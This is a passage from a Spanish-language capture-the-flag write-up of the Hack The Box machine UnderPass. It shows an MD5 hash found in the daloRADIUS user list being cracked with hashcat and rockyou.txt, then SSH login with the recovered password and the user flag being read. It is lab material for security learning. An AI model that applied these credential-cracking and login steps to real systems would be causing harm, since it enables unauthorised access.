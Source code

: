 ## Initial Access

Al revisar los diferentes apartados de la página web de `DALORADIUS`, nos encontramos con el apartado de `Management < Users < List Users` en el cual aparece al usuario `svcMosh` con unas credenciales en formato hash. --> [http://underpass.htb/daloradius/app/operators/mng-list-all.php](http://underpass.htb/daloradius/app/operators/mng-list-all.php)&#x20;

<figure><img src="../../.gitbook/assets/imagen (202).png" alt=""><figcaption></figcaption></figure>

### Cracking hashes

Por el formato del hash, podemos deducir que se trata de un hash `MD5`. Procedemos a crackear el hash obtenido y logramos crackear la contraseña y obtenerla en texto plano.

```bash
❯ hashid '412DD4759978ACFCC81DEAB01B382403'
Analyzing '412DD4759978ACFCC81DEAB01B382403'
[+] MD2 
[+] MD5 

❯ hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[snip]...

412dd4759978acfcc81deab01b382403:underwaterfriends  
```

### Accessing to SSH with password cracked

Probaremos de acceder al equipo a través de SSH con las credenciales obtenidas. Logramos acceder y verificar la flag de **user.txt**.

```bash
❯ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

...[snip]...

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$ cat user.txt 
7805fc3f0d**********************
```
